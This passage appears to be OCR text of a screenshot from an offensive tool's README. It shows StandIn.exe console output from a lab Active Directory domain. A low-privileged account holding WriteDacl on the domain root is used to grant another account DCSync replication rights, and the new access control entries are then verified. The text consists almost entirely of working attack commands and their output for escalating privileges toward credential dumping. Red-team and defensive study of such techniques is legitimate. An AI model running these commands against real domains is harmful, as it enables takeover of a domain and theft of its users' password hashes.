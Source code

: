 ```
    |_ Owner : BUILTIN\Administrators
    |_ Group : BUILTIN\Administrators

[+] Object access rules

[+] Identity --> MAIN\lowPrivButMachineAccess
    |_ Type       : Allow
    |_ Permission : WriteDacl
    |_ Object     : ANY

C:\> StandIn.exe --object "distinguishedname=DC=main,DC=redhook,DC=local" --grant "MAIN\s4uuser" --type DCSync

[?] Using DC : m-w19-dc01.main.redhook.local
[?] Object   : DC=main
    Path     : LDAP://DC=main,DC=redhook,DC=local

[+] Object properties
    |_ Owner : BUILTIN\Administrators
    |_ Group : BUILTIN\Administrators

[+] Set object access rules
    |_ Success, added dcsync privileges to object for MAIN\s4uuser

C:\> StandIn.exe --object "distinguishedname=DC=main,DC=redhook,DC=local" --access --ntaccount "MAIN\s4uUser"

[?] Using DC : m-w19-dc01.main.redhook.local
[?] Object   : DC=main
    Path     : LDAP://DC=main,DC=redhook,DC=local

[+] Object properties
    |_ Owner : BUILTIN\Administrators
    |_ Group : BUILTIN\Administrators

[+] Object access rules

[+] Identity --> MAIN\s4uUser
    |_ Type       : Allow
    |_ Permission : ExtendedRight
    |_ Object     : DS-Replication-Get-Changes-All

[+] Identity --> MAIN\s4uUser
    |_ Type       : Allow
    |_ Permission : ExtendedRight
    |_ Object     : DS-Replication-Get-Changes

[+] Identity --> MAIN\s4uUser
    |_ Type       : Allow
    |_ Permission : ExtendedRight
    |_ Object     : DS-Replication-Get-Changes-In-Filtered-Set
```
